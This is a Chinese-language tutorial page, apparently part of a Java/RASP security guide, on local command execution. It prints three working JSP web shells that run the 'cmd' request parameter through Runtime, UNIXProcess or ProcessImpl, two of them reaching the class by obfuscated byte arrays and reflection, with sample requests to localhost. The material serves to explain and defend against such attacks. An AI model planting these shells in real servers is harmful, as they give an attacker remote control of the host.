



# 本地命令执行漏洞

攻击者一旦可以在服务器中执行任意本地系统命令就意味着服务器已被非法控制，在Java中可用于执行系统命令的方式有API有：`java.lang.Runtime`、`java.lang.ProcessBuilder`、`java.lang.UNIXProcess`/`ProcessImpl`。

## 1. Java本地命令执行测试

示例-存在本地命令执行代码(`java.lang.Runtime`)：

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<pre>
<%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

攻击者通过向 `cmd` 参数传入恶意的代码即可在服务器上执行任意系统命令，请求：http://localhost:8000/modules/cmd/cmd.jsp?cmd=ls，如下图：



由于传入的`cmd`参数仅仅是一个两位的英文字母，传统的WAF基本都不具备对该类型的攻击检测，所以如果没有RASP的本地命令执行防御会导致攻击者可以在服务器中执行恶意的命令从而控制服务器。

## 2. 深层调用命令执行测试

示例-存在本地命令执行代码(`java.lang.UNIXProcess`)：

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<pre>
<%
    String[] cmd = request.getParameterValues("cmd");

    if (cmd != null) {
        Class clazz = Class.forName(new String(new byte[]{
                106, 97, 118, 97, 46, 108, 97, 110, 103, 46,
                85, 78, 73, 88, 80, 114, 111, 99, 101, 115, 115
        }));

        Constructor constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        byte[][] args = new byte[cmd.length - 1][];
        int      size = args.length; // For added NUL bytes

        for (int i = 0; i < args.length; i++) {
            args[i] = cmd[i + 1].getBytes();
            size += args[i].length;
        }

        byte[] argBlock = new byte[size];
        int    i        = 0;

        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }

        byte[] bytes  = cmd[0].getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;

        Object object = constructor.newInstance(
                result, argBlock, args.length,
                null, 1, null, new int[]{-1, -1, -1}, false
        );

        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);

        InputStream in = (InputStream) inMethod.invoke(object);
        int a = 0;
        byte[] b = new byte[1024];

        while ((a = in.read(b)) != -1) {
            out.println(new String(b, 0, a));
        }

        in.close();
    }
%>
</pre>
```

示例-存在本地命令执行代码(`java.lang.ProcessImpl`)：

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>

<%
    String str = request.getParameter("cmd");

    if (str != null) {
        Class clazz = Class.forName(new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 73, 109, 112, 108}));

        Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        Object object   = constructor.newInstance(str.split("\\s+"), null, "./", new long[]{-1L, -1L, -1L}, false);
        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);
        InputStream in = (InputStream) inMethod.invoke(object);
        Scanner     s  = new Scanner(in).useDelimiter("\\A");

        out.println("<pre>");
        out.println(s.hasNext() ? s.next() : "");
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```

这部分对于 linux 和 windows 系统的攻击代码有所差异，但原理上一致。

Linux系统，请求：http://localhost:8000/modules/cmd/linux-cmd.jsp?cmd=ls，如下图：



Windows系统，请求：http://localhost:8000/windows-cmd.jsp?cmd=cmd%20/c%20dir%20，如下图：

